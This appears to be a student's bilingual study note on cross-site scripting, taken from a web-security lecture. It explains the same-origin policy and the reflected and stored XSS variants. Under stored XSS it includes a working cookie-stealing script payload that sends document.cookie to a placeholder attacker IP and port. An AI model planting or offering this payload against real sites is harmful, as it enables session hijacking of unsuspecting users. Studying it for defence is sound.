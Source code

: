 ```yaml
---
alias: ""
theme: ""
edited: 2022-06-26
---
```

# XSS attacks
- code that runs on the user side

## Same origin policy
- skripte koje su na jednoj stranici smiju medjusobno dijeliti podatke ali ne mogu sa stranicama izvana

## Reflected
- users need to click on them
- used for phishing attacks
	- setup a website that stores user login details

## Stored
- runs every time a unique users refreshes the site
- can send cookies without the users knowledge
```html
//Ili na vlastiti stroj?
<script>document.location.href='http://<IP-ADRESA-HTTPSERV:PORT/cookie=?'+document.cookie</script>
```

---
# References
- [SRS sigurnost web aplikacija predavanje](https://youtu.be/2kwz7xZi_tU?t=4569)
- [[10-Sigurnost-web-aplikacija.pdf]]
- 